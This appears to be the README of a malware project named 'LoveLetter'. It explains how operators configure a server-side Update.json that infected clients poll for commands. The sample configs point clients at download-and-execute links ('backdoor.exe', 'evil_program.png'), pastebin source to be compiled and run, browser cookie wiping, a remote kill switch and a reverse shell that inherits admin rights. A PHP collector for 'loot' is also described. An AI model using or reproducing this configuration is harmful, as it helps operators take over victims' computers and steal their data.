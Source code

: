 ## [TellMe.php](TellMe.php)
The PHP file that handles and stores loot from the letter and stores them nicely structured on the server.

<br/>
<div>
  <img width="100" align="right" src="https://i.ibb.co/FxZQgkC/2.gif" alt="LoveLetter"/>
  <br>
  <h1>⚙️ Configuration</h1>
  <p>Update.json is being fetched by the client to check for any server commands. You can update it to your liking.</p>
</div>

## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe",
      "item2": 0.1
    }
  ],
  "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7",
      "item2": 0.1
    }
  ]
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.

> - Clear Cookies ```clearCookies```

If true, it will clear all cookies and cache of ~~supported~~ popular browsers.

> - Runnables ```runnables```

Contains direct links and versions of executables to be downloaded and executed. Whenever an executable is updated please increment ```item2``` (it's named that way due to how Tuples behave in C#) doing so will trigger the letter to redownload the executable, else ignored. Ex.

```json
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe", // direct link to download
      "item2": 2.0 //version
    },
    {
      "item1": "http://0.0.0.0/evil_program.png", // extensions dont matter, it will be ran as executables anyways
      "item2": 0.1
    }
```

> - Snippets ```snippets```

Direct links to any text files that will be compiled as executables and ran. Ex.

```json
 "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7", // the text inside this bin will be compiled
      "item2": 0.1
    },
    
    {
      "item1": "https://your-link-to-source-code.com/not-evil.txt",
      "item2": 0.1
    }
```
> - Open Shell? ```OpenShell```

If true, compiles a reverse shell and runs it.

> - Shell Bind Interface ```ShellBind```

The ip and port to bind the reverse shell with, it will listen on this interface for any incoming cmd.exe commands. If the letter runs with admin rights, the shell instance will have the same level of permissions as well.
<br/>
<br/>
**Goodluck 💖**